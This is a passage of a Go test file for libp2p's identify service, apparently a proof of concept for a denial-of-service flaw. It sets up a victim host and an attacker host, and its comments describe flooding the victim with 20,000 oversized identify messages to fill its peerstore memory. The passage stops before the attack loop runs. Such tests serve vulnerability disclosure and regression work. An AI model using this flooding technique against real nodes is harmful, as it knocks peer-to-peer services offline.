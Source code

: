 	hA := blhost.NewBlankHost(swarmt.GenSwarm(t, ctx, swarmt.OptPeerPrivateKey(sk1)))
	hB := blhost.NewBlankHost(swarmt.GenSwarm(t, ctx, swarmt.OptPeerPrivateKey(sk2)))

	// make sure to close them
	defer func() {
		if err := hA.Close(); err != nil {
			t.Fatal(err)
		}
		if err := hB.Close(); err != nil {
			t.Fatal(err)
		}
	}()

	hAid := hA.ID()
	hBid := hB.ID()

	ids1 := identify.NewIDService(hA)
	ids2 := identify.NewIDService(hB)
	defer ids1.Close()
	defer ids2.Close()

	testKnowsAddrs(t, hA, hBid, []ma.Multiaddr{}) // nothing
	testKnowsAddrs(t, hB, hAid, []ma.Multiaddr{}) // nothing

	h2pi := hB.Peerstore().PeerInfo(hBid)
	require.NoError(t, hA.Connect(ctx, h2pi))
	// hA should immediately see a connection from hB
	require.Len(t, hA.Network().ConnsToPeer(hBid), 1)
	// wait for hB to Identify itself so we are sure hB has seen the connection.
	ids1.IdentifyConn(hA.Network().ConnsToPeer(hBid)[0])

	// hB should now see the connection and we should wait for hA to Identify itself to hB.
	require.Len(t, hB.Network().ConnsToPeer(hAid), 1)
	ids2.IdentifyConn(hB.Network().ConnsToPeer(hAid)[0])

	testKnowsAddrs(t, hA, hBid, hB.Peerstore().Addrs(hBid))
	testKnowsAddrs(t, hB, hAid, hA.Peerstore().Addrs(hAid))

	// Pretend host A is a victim node

	// Now host B, the attacker, will send a lot of evil identify requests to the libp2p node, to fill its memory peerstore.

	// TODO: increase this to increase DoS force.
	msgCount := uint64(20000)

	t.Log("before attack, peerstore memory is:\n", memsize.Scan(hA.Peerstore()).Report())

	// Attacker can re-use the same buffer, and overwrite the message contents, to be very efficient with memory.
	// The opposite of the victim.

	// what really happens:
	// msg := &idpb.Identify{Delta: &idpb.Delta{AddedProtocols: make([]string, 0, 340)}}
	// for i := 0; i < 340; i++ {
	// 	msg.Delta.AddedProtocols = append(msg.Delta.AddedProtocols, string("abcd"))
	// }
	// res, _ := msg.Marshal()
	// t.Logf("%x", res)
